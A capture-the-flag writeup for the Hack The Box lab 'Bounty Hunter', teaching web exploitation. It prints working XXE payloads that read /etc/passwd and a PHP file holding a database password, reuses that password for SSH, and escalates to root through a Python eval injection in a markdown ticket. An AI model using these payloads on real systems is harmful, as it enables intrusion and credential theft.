


I've just completed Bounty Hunter from HTB! Bounty Hunter is a box focused on web exploitation, in particular XXE injection. Here is a quick writeup about how I solved this box. 

<!--more-->

## HTB - Bounty Hunter
**Box** : Bounty Hunter\
**IP Address** : 10.10.10.100\
**Operating System** : Linux

## Remarks

- Learn to read and debug code!
- In my opinion, the main crux of this challenge is the exploitation of XXE injection. If one payload fails, try it with another payload, try to encode it with UTF-8/Base-64..... DONT GIVE UP!

## Enumeration

As usual, lets first start with enumerating all the open ports and services behind this open ports using Nmap. This is a rather simple box with just 2 open ports - namely port `22` and port `80`. Port `22` is an SSH server while port `80` is a webserver using `Apache`.

Upon naviagation to the site, we also realize that the website uses `PHP` files from the `wapplyze` plugin that we installed on our web browser.



Using that information, we will run a directory enumeration on the webserver to identify all the `php` files hosted on the web server. During this process, we noticed an interesting file `db.php` and a `resources` directory on the webserver

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.11.100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php -z
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.100
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2021/08/08 21:09:43 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 25169]
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]   
/portal.php           (Status: 200) [Size: 125]                                     
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]      
/db.php               (Status: 200) [Size: 0]                                       
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]
```

Visiting the `resources` directory on the webpage, we discover another interesting javascript file `bountylog.js`. We discover another `tracker_diRbPr00f314.php` endpoint and also, the XML processed by the backend server.

```javascript
function returnSecret(data) {
	return Promise.resolve($.ajax({
            type: "POST",
            data: {"data":data},
            url: "tracker_diRbPr00f314.php"
            }));
}

async function bountySubmit() {
	try {
		var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>${$('#exploitTitle').val()}</title>
		<cwe>${$('#cwe').val()}</cwe>
		<cvss>${$('#cvss').val()}</cvss>
		<reward>${$('#reward').val()}</reward>
		</bugreport>`
		let data = await returnSecret(btoa(xml));
  		$("#return").html(data)
	}
	catch(error) {
		console.log('Error:', error);
	}
}
```

Looking at the website, we discovered a `log_submit.php` endpoint. This page contains a form that can be submitted. We will then try to send a POST request to the backend server and intercept it with Burp. From the requests intercepted by Burp, we realize that the POST request is being redirected to the `/tracker_diRbPr00f314.php` endpoint that we found earlier. Apart from that, the payload in the request body also seems to have been URL encoded. 



Next we will first URL decode the payload. However, we realize that the payload is still encoded. But now, we realize that this encoded payload can be easily decoded with Base64 encoding. The final encoded payload matches the XML that we have obtained from the `bountylog.js` file that we have found earlier. This gives us the idea that we could do an XML injection on the payload.

```bash
┌──(kali㉿kali)-[~]
└─$ echo PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT50ZXN0PC90aXRsZT4KCQk8Y3dlPnRlc3Q8L2N3ZT4KCQk8Y3Zzcz50ZXN0PC9jdnNzPgoJCTxyZXdhcmQ+dGVzdDwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg== | base64 --decode
<?xml  version="1.0" encoding="ISO-8859-1"?>
                <bugreport>
                <title>test</title>
                <cwe>test</cwe>
                <cvss>test</cvss>
                <reward>test</reward>
                </bugreport> 
```

So now we will modify the payload to exfiltrate data from ```/etc/passwd``` file. (Note that we will still have to base 64 encode and URL encode the payload). The response that we received from the webserver revealed the ```/etc/passwd``` file, which confirmed that this webserver is vulnerable to XML injection. 


```bash
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```

We noticed that there is a `development` user that might not require a password to SSH into. Hence, we will try out luck, but apparently I have either no or extremely low luck and so, I am unable to SSH into the server as it requires a password to SSH into.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh development@10.10.11.100                                         3 ⚙
development@10.10.11.100's password: 
Permission denied, please try again.
development@10.10.11.100's password: 
Permission denied, please try again.
development@10.10.11.100's password: 
development@10.10.11.100: Permission denied (publickey,password).
```

Now, we remember from our `gobuster` that we have discovered a `db.php` file and this file is most likely stored in `/var/www/html` directory on the webserver. So, we modify our payloads to try to exfiltrate this file. After numerous tries on different payloads, we were able to obtain an encoded text in the response!

```bash
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php" >]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```

Decoding the encoded text that we have obtained in the response gives us the contents of the file. 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ echo PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo= | base64 --decode
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

#### Obtaining the user flag

With the `developement` user that we have obtained earlier and the password that we have obtained from the `db.php` file, we are now able to login to the SSH server, and obtain the user flag

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh development@10.10.11.100                                         3 ⚙
development@10.10.11.100 password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 09 Aug 2021 03:15:58 AM UTC

  System load:           0.0
  Usage of /:            24.1% of 6.83GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             217
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.100
  IPv6 address for eth0: dead:beef::250:56ff:feb9:9e4b


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Jul 21 12:04:13 2021 from 10.10.14.8
development@bountyhunter:~$
development@bountyhunter:~$ cat user.txt
<Redacted user flag>
```

#### Obtaining the system flag

However, we are far from done yet! We still have not obtained the system flag. Using `sudo -l` we have discovered that `/opt/skytrain_inc/ticketValidator.py` has root permissions. However, we've also realised that we cannot modify the code file to create a root shell as `/usr/bin/nano` and `/usr/bin/vi` are not given root privileges.

```bash
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

Next, we will have to analyze the python code to understand how it can be exploited. From the code we can create a file of certain contents to reveal the system flag. So now, we will start with the analysis of the code.

This section of the code tells us that only `markdown` files will be processed.

```python
def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()
```

This section of the code tells us that the first line of the file must begin with `# Skytrain Inc`

```python
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
```

This section of the code tells us that the second line of the file must begin with `## Ticket to`

```python
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue
```

This section of the code tells us that the next line must begin with `__Ticket Code:__`, and `code_line` will increment. This line is essential so that the next section of the code below will be executed.

```python
        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue
```

There are 3 things happening on the last section of the code.  Firstly, the fourth line of the markdown file must begin with `**`. Secondly, the `**` will be replaced and the rest of the line will be evaluated. Thirdly, the `validationNumber` must be evaluated to be greater than 100 to be `true`

```python
        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
```

With the above information from the code analysis, we can craft a payload in `markdown` file format that will reveal the system flag successfully!

```bash
development@bountyhunter:~$ cat exploit.md
# Skytrain Inc
## Ticket to exploit
__Ticket Code:__
** 102 + 310 == 412 and __import__('os').system('sudo cat /root/root.txt') == False
development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
exploit.md
Destination: exploit
<Redacted system flag>
Invalid ticket.
```